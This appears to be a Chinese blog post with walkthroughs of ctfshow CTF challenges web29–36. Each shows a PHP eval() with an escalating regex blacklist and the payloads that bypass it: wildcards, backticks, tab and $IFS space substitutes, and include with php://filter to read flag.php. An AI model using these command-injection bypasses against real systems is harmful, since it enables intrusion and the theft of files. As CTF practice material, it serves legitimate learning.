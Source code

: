 ```yaml
---
layout: post
title:  "[命令执行]web29-36"
date:   2020-01-09 23:00:00 +0800
categories: ctfshow
---
```


### Web29

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

肥肠简单的一个命令执行，绕过flag黑名单就行，可以使用linux的通配符`*`

```
payload:?c=system('cat fla*');
```

需要注意的是这个flag并不会回显，需要查看源代码才能够看到(这里还卡了半天)。

### Web30

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

这次ban掉了system()函数，所以换一个函数就好

```
payload:?c=echo `cat fla*`;
```

### Web31

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

这次ban掉了cat，还有空格、.这些常用的命令和字符，所以要考虑空格的绕过。

空格的绕过方法也是老生常谈了(虽然到现在我都没记几个，~~呜呜我真是个废物~~)

```
在linux 空格可以用以下字符串代替：
 %09(tab)、$IFS$9、 $、{IFS}、$IFS%09(tab)、< 、<>、%20(space)等
 // 抄自羽师傅博客
```

```
payload:?c=echo%09`more%09fla*`; //也可以把%09换成其他 more换成less
```

### Web32

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

又ban掉了`，echo，还有括号，这时候就要想php中不适用括号的函数了

```php
echo
print
die
include
require
include_once
require_once
```

这题不会做，去网上看师傅们的wp，发现是使用include写进去马，然后用伪协议读取文件(~~呜呜~~)。

```
payload:?c=include"$_POST[noob]"?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

load地址的时候，要把`?c=include"$_POST[noob]"?>`加上

### Web33

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了双引号 用上一道题的payload去除双引号即可

```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

### Web34

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了`:`，然而并没有什么卵用
```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```
### Web35

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了`<`，然而并没有什么卵用

```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

### Web36

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了`数字`，然而并没有什么卵用

```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

